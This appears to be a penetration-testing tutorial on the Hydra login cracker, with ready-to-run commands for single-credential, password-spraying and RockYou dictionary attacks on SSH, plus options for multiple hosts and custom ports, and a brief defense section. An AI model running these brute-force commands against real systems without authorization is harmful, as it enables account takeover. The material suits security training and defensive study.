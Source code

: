 ```yaml
---
title: "How to Use Hydra to Hack Passwords – Penetration Testing Tutorial"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


## Introduction

Hydra is a powerful brute-forcing tool used by penetration testers and ethical hackers to crack passwords of network services. It can perform rapid dictionary attacks against more than 50 protocols, including Telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services. Developed by the hacker group "The Hacker’s Choice," Hydra was first released in 2000 as a proof-of-concept tool for attacking network logon services.

Unlike sequential brute-forcing tools, Hydra is a parallelized login cracker, allowing multiple connections simultaneously, significantly reducing the time required to crack a password.

This section will guide you through using Hydra, covering installation, common attack types, and essential flags and options. Note: This tutorial is for educational purposes only. Always obtain permission before scanning, brute-forcing, or exploiting any system.

## How to Install Hydra

### Pre-installed Systems

Hydra comes pre-installed with Kali Linux and Parrot OS. If you are using one of these, you can start working with Hydra immediately.

### Ubuntu

Use the `apt` package manager to install Hydra:

```sh
$ sudo apt install hydra
```

### macOS

Hydra is available under Homebrew:

```sh
$ brew install hydra
```

### Windows

It's recommended to use a virtual box and install Linux. Using Windows for professional penetration testing is not advisable.

## How to Work with Hydra

### Starting with Hydra

Begin by exploring the help command to understand Hydra's options:

```sh
$ hydra -h
```

This command provides a list of flags and options available in Hydra.

![hydra-help](https://i.imgur.com/fPGDlMF.png)

### Single Username/Password Attack

To perform a simple attack with known username and password:

```sh
$ hydra -l <username> -p <password> <server> <service>
```

Example:

Assume you had a user named `admin`, and password named `admin` hosted at `10.10.137.50`. (Make sure you have a service running at a hosted address and can connect via ssh).

```sh
$ hydra -l admin -p admin 10.10.137.50 ssh
```

### Password Spraying Attack

To perform a password spray attack where you test a known password against multiple usernames (in a case where you don't know exactly who the user is):

1. Create a file called `users.txt` with the following content:

```bash
root
admin
user
tech
steve
richard
```
2. Run the password spray attack:
   We are going to test the password "admin".
```sh
   hydra -L users.txt -p admin 10.10.137.50 ssh
```

### Dictionary Attack

To perform a dictionary attack using a list of passwords:

1. Use the RockYou wordlist, typically found at `/usr/share/wordlists/rockyou.txt` on Kali Linux or on ([github](https://github.com/teamstealthsec/wordlists)).
2. Run the dictionary attack:
   ```sh
   $ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
   ```

### Verbosity and Debugging

Hydra can be awfully quiet when running large brute-force attacks. If we have to make sure Hydra is doing what it is expected to do, there are two flags we can use.

The verbosity (-v) flag will show us the login attempt for each username/password combination. This can be a bit much when there are a lot of combinations to go through, but if it is something you need, we can use the verbosity flag.

#### Verbosity Flag

To show each login attempt:

```sh
$ hydra -v -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

#### Debug Flag

To gather more detailed information:

```sh
$ hydra -d -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Saving Results

To save the results of your attack:

```sh
$ hydra -l <username> -p <password> <ip> <service> -o <file.txt>
```

## Additional Flags and Formats

### Service Specification

Specify the service with the IP address:

```sh
$ hydra -l <username> -p <password> ssh://<ip>
```

### Resuming Attacks

Resume a session if Hydra exits during an attack:

```sh
$ hydra -R
```

### Custom Ports

Specify custom ports if services run on non-default ports:

```sh
$ hydra -l <username> -p <password> <ip> <service> -s <port>
```

### Attacking Multiple Hosts

Attack multiple hosts using a file containing a list of IP addresses:

```sh
$ hydra -l <username> -p <password> -M <host_file.txt> <service>
```

### Targeted Combinations

Use specific username/password combinations:

1. Create a file `combinations.txt` with the format:
   ```txt
   username1:password1
   username2:password2
   username3:password3
   ```
2. Run the command:
   ```sh
   $ hydra -C combinations.txt <ip> <service>
   ```

## How to Defend Against Hydra

### Strong Passwords

Use strong passwords to make brute-force attacks difficult.

### Password Policies

Enforce policies to change passwords regularly.

### Limiting Authorization Attempts

Lock accounts after a few failed login attempts to prevent brute-force attacks.

### Use Re-captcha

Implement re-captcha to prevent automated brute-force attacks.

## Summary

Hydra is a fast, flexible network brute-forcing tool essential for penetration testing. With its modular architecture and support for parallelization, Hydra can be extended to include new protocols and services easily. Always use Hydra responsibly and ethically.